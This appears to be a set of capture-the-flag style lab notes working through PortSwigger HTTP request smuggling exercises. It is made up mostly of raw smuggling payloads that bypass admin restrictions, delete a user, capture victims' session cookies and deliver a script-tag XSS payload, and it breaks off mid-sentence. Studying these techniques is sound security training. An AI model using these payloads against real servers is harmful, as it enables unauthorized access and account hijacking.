01 HTTP request smuggling, basic CL.TE vulnerability
====================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding. The front-end server rejects requests that
aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next
request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling



Intercept the request to “/” and change the HTTP method in the Repeater tab and
the method to POST:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: 0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Cookie: session=b8XcvijmPd8C0rUH0GtgGgXQW5YZ0n8c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net/post?postId=2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



To smuggle the next request and add a "G" to it:

-   *Transfer-Encoding: chunked* because the backend understands it

-   *Content-Length: 14* so the G is not part of the payload

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: 0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Cookie: session=b8XcvijmPd8C0rUH0GtgGgXQW5YZ0n8c
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Transfer-Encoding: chunked
Connection: close

3
x=y
0

G
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~





The important part is the 0:



02 HTTP request smuggling, basic TE.CL vulnerability
====================================================

This lab involves a front-end and back-end server, and the back-end server
doesn't support chunked encoding. The front-end server rejects requests that
aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next
request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling



Intercept a request to “/”, change the method to POST, update the Repeater
options so the Content-Length is not updated automatically and the protocol to
HTTP/1:



If we add a payload to add only 1 character, the “0” character gets added to the
next request as well:



The final payload needs: - *Transfer-Encoding: chunked* for the frontend -
*Content-Length: 4* for the backend: It will take until the “26” characters -
*26* is the size in HEXADECIMAL for the following payload. Calculated as the
length of each line + 2 for each new line character ("\\n"). - *GPOST /
HTTP/1.1* to execute the GPOST request - *Content-Length: 10* Because the
backend is what understands - *0* to end the second chunk - 2 spaces after the
“0” character

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: 0a0c00cf030aaea982b5514b00a0005c.web-security-academy.net
Cookie: session=irWl3kQHO1irsOGobgJR43XvMwB3OAAk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



03 HTTP request smuggling, obfuscating the TE header
====================================================

This lab involves a front-end and back-end server, and the two servers handle
duplicate HTTP request headers in different ways. The front-end server rejects
requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next
request processed by the back-end server appears to use the method GPOST.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling



It is necessary to add the header "Transfer-encoding: cow":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



04 HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
======================================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent
request for / (the web root) triggers a 404 Not Found response.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling/finding



It is possible to redirect to /404 using the same payload as in the example,
setting the protocol to HTTP/1:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



05 HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
======================================================================================

This lab involves a front-end and back-end server, and the back-end server
doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent
request for / (the web root) triggers a 404 Not Found response.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling/finding



It is possible to redirect to /404 using the same payload as in the example,
setting the protocol to HTTP/1:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

58
GET /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



06 Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
===============================================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding. There's an admin panel at /admin, but the
front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the
admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling/exploiting



We can use a previous payload to find it is possible to redirect to /404:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Length: 66
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404/ HTTP/1.1
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



To access /admin it is necessary to add the header “Host: localhost”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/ HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


And then delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /admin/delete?username=carlos HTTP/1.1
X-Forwarded-For: 127.0.0.1
Host: localhost
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



07 Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
===============================================================================================

This lab involves a front-end and back-end server, and the back-end server
doesn't support chunked encoding. There's an admin panel at /admin, but the
front-end server blocks access to it.

To solve the lab, smuggle a request to the back-end server that accesses the
admin panel and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling/exploiting


First we can test a previously used payload to generate a request with GPOST,
finding it generates an error every 2 requests:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

26
GPOST / HTTP/1.1
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Then we can adapt the payload to access /admin using the header “Host:
localhost” as previously:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

3a
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



And finally delete the user “carlos”:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

51
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 10

0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



08 Exploiting HTTP request smuggling to reveal front-end request rewriting
==========================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP
address 127.0.0.1. The front-end server adds an HTTP header to incoming requests
containing their IP address. It's similar to the X-Forwarded-For header but has
a different name.

To solve the lab, smuggle a request to the back-end server that reveals the
header that is added by the front-end server. Then smuggle a request to the
back-end server that includes the added header, accesses the admin panel, and
deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires
techniques that are only possible in HTTP/1. You can manually switch protocols
in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

References:

-   https://portswigger.net/web-security/request-smuggling/exploiting





We search a random value:



It generates a POST request and the value is in the “search” parameter:



It is reflected inside a h1 element:



"Front-end server doesn't support chunked encoding" means this page suffers a
CL.TE type of HTTP request smuggling. Knowing this and that the search function
is a POST request to “/” using the parameter “search”, we can use this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We can see the headers clearly in the source code:



We can increase the “Content-Length” value to see the whole request:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 700

search=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
X-XfXVAo-Ip: 2.139.0.137
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Cookie: session=h2uq8n5r3ooPksPjT3ScGmfAAD1IAltd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

The most relevant header seems to be:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
X-XfXVAo-Ip: 2.139.0.137
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

But the /admin page is still not accessible:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 2.139.0.137

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



It is necessary to use the discovered header with the ip address 127.0.0.1:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Finally, delete the user:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



09 Exploiting HTTP request smuggling to capture other users' requests
=====================================================================

This lab involves a front-end and back-end server, and the front-end server
doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server that causes the next
user's request to be stored in the application. Then retrieve the next user's
request and use the victim user's cookies to access their account.

Notes:

-   Although the lab supports HTTP/2, the intended solution requires techniques
    that are only possible in HTTP/1. You can manually switch protocols in Burp
    Repeater from the Request attributes section of the Inspector panel.

-   The lab simulates the activity of a victim user. Every few POST requests
    that you make to the lab, the victim user will make their own request. You
    might need to repeat your attack a few times to ensure that the victim
    user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be
tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can
install it via the BApp Store.

Hint: If you encounter a timeout, this may indicate that the number of bytes
you're trying to capture is greater than the total number of bytes in the
subsequent request. Try reducing the Content-Length specified in the smuggled
request prefix.

References:

-   https://portswigger.net/web-security/request-smuggling/exploiting





There is a function to send comments:



It generates a POST request:



"Front-end server doesn't support chunked encoding" means this page suffers a
CL.TE type of HTTP request smuggling. Intercept a request to “/”, change the
method to POST and the protocol to "HTTP/1":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
Transfer-Encoding: chunked

0

GET /my-account HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Content-Length: 3

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Then substitute the request to "/my-account" for a request to "/post/comment":

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 200

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

We can see our following request is written in the comments section:


We increase the "Content-Length" value and see the victim's request is written,
until the cookie appears:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 928
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: session=ttGG2cUnVqyKIgqM36GrG5iprUDMiqhi
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Origin: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net
Referer: https://0aa10022031f57b8839bf075004000fc.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Length: 930

csrf=QZmH5dI3PgwPOQ8uw6OD1YHk0xhjvvgB&postId=10&name=test2&email=test3%40test.com&website=http%3A%2F%2Ftest4.com&comment=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Finally, access /my-account with those cookies:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /my-account HTTP/2
Host: 0aa10022031f57b8839bf075004000fc.web-security-academy.net
Cookie: victim-fingerprint=XchbXstfr9kMYumQzHglvn9Sg1z4pxSs; secret=aM45zL11YFFQCrtomCCbsY5NztXRhRBV; session=KmVDLu3qlwSNTsfOENJ0hm1Gnji4qT88
...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



# Exploiting HTTP request smuggling to deliver reflected XSS

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to reflected XSS via the User-Agent header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes alert(1).

Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.

---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling

- https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn#demo

- https://portswigger.net/web-security/request-smuggling/exploiting


---------------------------------------------

Generated link: https://0a1700ce0389844181edcf97005800c5.web-security-academy.net/

There is a functionality to post a comment:


It is a POST request. We see the User Agent in a parameter:


We intercept and change the User Agent when accessing “/post?postId=6”:


And the parameter “UserAgent” in the POST request to post the comment is now the XSS payload:


So the User Agent is stored and sent when creating the comment. If we set a random value and read the code of the page we can see it is stored as a hidden value in HTML:


We see the value "TESTING":


We can try to exploit this with a payload like:

```
useragent"><script>alert(1)</script><a href="/test
```


And the alert message appears:


The GET request is:

```
GET /post?postId=6 HTTP/2
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Cookie: session=wCZh63XkY3fb78PZD4YQHfyiprCzjeko
User-Agent: useragent"><script>alert(1)</script><a href="/test
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ab30009038a2d4080d2494d0061002a.web-security-academy.net/post/comment/confirmation?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
```

I will launch HTTP Request Smuggler to try to detect the HTTP smuggling vulnerability:


From the lab description we have this:


In the blog post we can read:


And there are 3 types of HTTP smuggling:


The front-end server doesn't support chunked encoding so the result from the Burp extension is CL.TE:


How to exploit it:


We try to send the malicious GET request after a 0 in the POST request:


If we visit the website we get an invalid request response:


I had to add the Content-Length and at least one character:


```
POST / HTTP/1.1
Host: 0ab30009038a2d4080d2494d0061002a.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 120

0

GET /post?postId=6 HTTP/1.1
User-Agent: useragent"><script>alert(1)</script><a href="/test
Content-Length: 3

a
```

11 Response queue poisoning via H2.TE request smuggling
=======================================================

This lab is vulnerable to request smuggling because the front-end server
downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to
break into the admin panel at /admin. An admin user will log in approximately
every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you
get it into a bad state - just send a few normal requests to get a fresh
connection.

References:

-   https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning



There is a search function whose content is reflected inside an h1 element:



Searching generates a POST request:



It looks it is vulnerable to HTTP request smuggling of type CL.TE, and we can
read requests with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 156
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 100

search=
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



We will smuggle a second whole request, so we will send 2 complete POST requests
to /404:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /404 HTTP/2
...
Content-Type: x-www-form-urlencoded
Content-Length: 149
Transfer-Encoding: chunked

0

POST /404 HTTP/1.1
Host: 0a32000c046da999825cd4a900ba008a.web-security-academy.net
Content-Type: x-www-form-urlencoded
Content-Length: 1

a
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



However, if the next request we send is a POST to “/”, it will return the
response to the second POST request to /404, instead of the home page:



And if the third request is to “/404”, it will respond with the response to the
last request to “/”, instead of “Not found”:



I sent some more requests and got a redirection code 302 to /my-account setting
the cookie value to “XOhkm2PtWb1ciwgfJKMwDHcIGxFjvti1”. It seems this is the
